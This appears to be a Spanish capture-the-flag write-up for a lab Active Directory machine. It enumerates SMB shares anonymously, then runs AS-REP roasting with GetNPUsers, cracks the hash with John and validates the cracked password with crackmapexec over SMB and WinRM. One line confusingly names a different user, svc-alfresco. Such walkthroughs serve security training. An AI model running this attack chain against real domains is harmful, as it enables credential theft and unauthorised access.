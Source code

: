```bash
smbclient //10.10.10.192/profiles$ -N
dir
```

Aqui podemos ver registros que parecen ser directorios de ususarios.
## Vulnerability Assessment {-}

### Asproasting Attack {-}

Una vez que tenemos un listado de usuarios, podemos hacer un **asproating attack**

1. copiamos todos los usuarios en un fichero llamado users

    ```bash
    nano users_dir
    Ctrl+shift+v

    cat users_dir | awk '{print $1}' > users
    rm users_dir
    ```

1. Con 
```bash
 GetNPUsers.py 
```
 vamos a ver si podemos recuperar un TGT

    ```bash
    GetNPUsers blackfield.local/ -no-pass -usersfile users | grep -v "not found"
    ```

Aqui vemos el TGT del usuario **support**. Esto quiere decir que este usuario tenia el *Don't required pre-auth* seteado. Copiamos todo el hash 
del usuario svc-alfresco en un fichero llamado hash y lo crackeamos con John


### Crackeando el hash con John {-}

```bash
john -wordlists=/usr/share/wordlists/rockyou.txt hash
```

Aqui encontramos su contraseña. Ya podemos effectuar un Kerberoasting attack. Pero primero, como siempre, credenciales encontradas son 
credenciales que checkeamos con crackmapexec

```bash
crackmapexec smb 10.10.10.192 -u 'support' -p '#00^BlackKnight'
```

Aprovechamos para ver si nos podemos conectar via winrm.

```bash
crackmapexec winrm 10.10.10.192 -u 'support' -p '#00^BlackKnight'
```

Aqui vemos que el usuario es valido y que tiene permiso de lectura sobre el directorio **SYSVOL** y que lo normal seria de buscar si existe un
fichero 
```bash
 groups.xml 
```
, porque a dentro tienes un 
```bash
 cpassword=HASH 
```
 que contiene un hash que se podria crackear con la heramienta **gpp-decrypt** pero 
Tito no adelanta que no es el caso no se aplicaba.
